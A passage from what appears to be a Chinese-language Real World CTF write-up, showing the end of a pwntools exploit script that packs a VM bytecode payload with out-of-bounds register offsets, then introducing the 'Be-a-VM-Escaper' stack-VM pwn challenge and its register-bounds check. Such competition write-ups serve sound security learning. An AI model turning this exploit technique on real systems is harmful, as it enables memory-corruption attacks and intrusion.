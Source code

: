 ```python
	pd+=p32(1)
	pd+=p32(13)+p32(0)
	
	pd+=p32(12)+p32(0xFFFFFC15)
	pd+=p32(12)+p32(0xFFFFFC14)
	pd+=p32(17)
	
	
	sl(pd.ljust(0x200,b'\x00'))
	ia()


exp()
```





## 体验赛

### Be-a-VM-Escaper

> Score: *401*
>
> ```
> Pwn
> ```
>
> VM Escape is too hard? It's not always the case.
>
> Try this small, likely turing-incomplete stack-based [language interpreter](https://github.com/erratic-c-programmer/lvm).
>
> ```
> nc 101.132.235.138 1337
> ```
>
> [attachment](https://realworldctf-attachment.oss-accelerate.aliyuncs.com/Be-a-VM-Escaper_ddd7b60ebbb057928147c792ff7aaa4b.zip)

直接给出了[项目地址](https://github.com/erratic-c-programmer/lvm)，建立在栈基础上的VM

这题在LOAD和STORE到reg时，对arg1的处理多了一个check

```c
#define CHECK_REG(x) \

	if (x > REGNO) { \
		fprintf(stderr, "INVALID REGISTER: ABORT\n"); \
		exit(1); \
	}
```
